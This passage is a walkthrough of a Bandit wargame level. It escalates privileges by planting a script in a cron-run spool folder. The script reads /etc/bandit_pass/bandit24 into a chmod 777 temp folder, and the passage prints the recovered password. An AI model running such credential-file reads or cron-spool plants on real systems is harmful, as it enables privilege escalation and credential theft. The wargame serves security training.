 What can you do with this? well, if the script runs all scripts in the folder, can you access that folder and put your own script in there?

start by making a temp folder to keep the server clean, then create a script file with the `touch` command (yes, is an empty file, just to see if you can copy it to the folder). Try to copy the file and confirm that the file is there.
```
bandit23@bandit:~$ mkdir /tmp/bml_2324
bandit23@bandit:~$ cd /tmp/bml_2324
bandit23@bandit:/tmp/bml_2324$ touch level24.sh
bandit23@bandit:/tmp/bml_2324$ cp level24.sh /var/spool/bandit24/
bandit23@bandit:/tmp/bml_2324$ ls /var/spool/bandit24/level24.sh
/var/spool/bandit24/level24.sh
```
ok, so you can copy the script to the folder and that script will run as *bandit24* because it is invoked by the *cron job*. All you have to do is to write a script that copies the password of *bandit24* to your temp folder and then copy the script again to */var/spool/bandit24*
```
bandit23@bandit:/tmp/bml_2324$ vim level24.sh

[--- to edit the script, use your favorite text editor ---]

bandit23@bandit:/tmp/bml_2324$ cat level24.sh 
cat /etc/bandit_pass/bandit24 > /tmp/bml_2324/pass.txt
bandit23@bandit:/tmp/bml_2324$ cp level24.sh /var/spool/bandit24/
bandit23@bandit:/tmp/bml_2324$ ls
level24.sh
```
wait a few moments (the *cron job* runs every minute) and check your temp folder:
```
bandit23@bandit:/tmp/bml_2324$ ls
level24.sh
```
nothing... why? I'll give you a hint:
```
bandit23@bandit:/tmp/bml_2324$ ls -la level24.sh 
-rw-r--r-- 1 bandit23 root 55 Apr  9 17:50 level24.sh
```
the script doesn't have the appropriate permissions to run! you have to change the permissions on the script file and also on the temp folder, otherwise the *cron job* will not be able to run the script.
```
bandit23@bandit:/tmp/bml_2324$ chmod 777 level24.sh 
bandit23@bandit:/tmp/bml_2324$ chmod 777 /tmp/bml_2324
```
now copy the script again and wait for the password to appear on your temp folder:
```
bandit23@bandit:/tmp/bml_2324$ cp level24.sh /var/spool/bandit24/

[--- after a few moments ---]

bandit23@bandit:/tmp/bml_2324$ ls
level24.sh  pass.txt
bandit23@bandit:/tmp/bml_2324$ cat pass.txt 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
